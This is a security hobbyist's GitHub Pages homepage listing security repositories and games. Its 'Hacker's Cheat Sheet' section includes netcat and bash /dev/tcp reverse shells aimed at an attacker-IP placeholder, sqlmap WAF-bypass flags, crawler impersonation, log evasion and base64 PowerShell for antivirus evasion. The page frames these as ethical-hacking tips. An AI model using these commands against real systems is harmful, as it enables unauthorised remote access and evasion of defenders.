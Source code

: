 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

![Hacker Banner](https://user-images.githubusercontent.com/hacker-image.png)

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities, and cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) - A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) - Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) - Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) - Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) - Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) - A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) - A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) - A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) - Detect network anomalies using these tools and techniques.
---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities, and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
> Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
> Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt
  ```
> Quick and powerful fuzzing to discover hidden directories.

### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:

```
http.request.method == "GET"
```
> Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
> Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques
- Bypass WAF using SQLMap with tamper scripts:
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
```
> Get around pesky WAFs with a tamper script and crank up the aggression.

- Custom User-Agent to fool detection systems:
```
curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com
```

> Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells

- Obfuscated Netcat reverse shell:

```
mkfifo /tmp/lolpipe; nc <attacker IP> <port> 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
```
> Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- Bash TCP reverse shell (for when Netcat isn’t available):
```
bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
```
> Minimal footprint, effective on many Unix-based systems.
### 💻 5. Stealth Techniques
- Avoid logging by executing commands in memory (Linux):
```
exec /bin/bash 0</dev/null 2>/dev/null
```
> Run commands in a way that avoids leaving traces in `/var/log` files.

- Evade AV detection with PowerShell base64 encoding:
  ```
  powershell.exe -EncodedCommand <Base64 Encoded Command>
  ```
> Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.
### 🛠️ 6. Tools You Might Not Know (But Should)
- ([Obsidian]https://obsidian.md/)– A tool for creating encrypted vaults of notes and penetration testing playbooks
- ([Chaos Reader]http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- ([LinEnum]https://github.com/rebootuser/LinEnum)– A Linux enumeration script to quickly find privilege escalation vectors.
### 🎯 7. Fuzzing on Steroids
- Fuzzing APIs with POST requests using FFUF:
  ```
  ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
  ```
> Quickly find API vulnerabilities by fuzzing POST request bodies.

- Fuzzing JSON APIs with AFL (American Fuzzy Lop):
  ```
  afl-fuzz -i input/ -o output/ -- ./target_binary @@
  ```
> Use AFL to find memory corruption issues in JSON parsers, or other binary targets.
💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉
  

## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!

